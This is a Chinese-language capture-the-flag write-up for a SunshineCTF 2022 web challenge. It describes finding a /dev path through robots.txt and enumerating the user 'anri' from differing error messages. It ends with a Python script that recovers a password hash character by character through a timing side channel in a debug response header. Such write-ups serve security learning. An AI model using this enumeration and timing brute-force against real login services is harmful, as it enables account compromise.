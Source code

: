 假如隨便輸入，會回傳 `You're not a true fan :C` 的錯誤訊息

![](https://i.imgur.com/uSaumTz.png)


初步看起來沒有 XXE 或是 SQLi 等漏洞

不過根據題目名稱提示，看起來和時間之類的有關，所以嘗試看看是不是有留 development 時的一些東西

嘗試了 `.git` 和 `backup.zip` 等都沒看到，但發現了 `robots.txt`，且裡面有 `/dev` 的路徑

![](https://i.imgur.com/7PnjSRe.png)

而底下還有 `/hostname` 和 `/users` 的子路徑

![](https://i.imgur.com/ULr9oyB.png)

`/dev/hostname` 回傳 Internal Server Error，看起來沒有特別東西

而 `/dev/users` 就有趣了，可以看到有 `anri` 的帳號且是啟用中

![](https://i.imgur.com/DEkua7F.png)

由此可知帳號名稱為 `anri`

在登入頁面的地方，假如帳號名稱為 `anri` 的話，錯誤訊息會變成 `Nope. Wrong.`，與隨便輸入的情況不同

![](https://i.imgur.com/whuKTWa.png)

不過密碼的部分還是不知道

觀察後發現，當使用者填入 `anri` 時，在 header 的地方會出現 `debug-lag-fix`，反之則沒有，看起來很可疑

![](https://i.imgur.com/98zMQbY.png)

此外也從題目名稱可知這題跟時間有關，所以會不會可以用時間長短的不同作為 side channel 來 leak 出密碼呢? 經測試發現似乎可以

不過經測試，不是直接 leak 出密碼，而是需要 leak 加密後的 hash

script:
```python=
import requests
import string

alphabet = string.digits + "abcdef"

h0 = ['f']
for i in range(40-len(h0)):
	max_item = ('a', 0)
	hh = h0 + ['a' for _ in range(40 - len(h0))]
	
	for a in alphabet:
		hh[len(h0)] = a
		password = "".join(hh)
		res = requests.post(
			'https://timely.web.2022.sunshinectf.org/login', 
			headers={'content-type':'application/json'}, 
			data='{"username":"anri", "password":"'+ password + '"}', 
			verify=False)
		latency = res.headers['Debug-Lag-Fix'][:-2]
		if(int(latency) > max_item[1]):
			max_item = (a, int(latency))
	h0.append(max_item[0])
	print(h0, max_item)

print(h0)
```
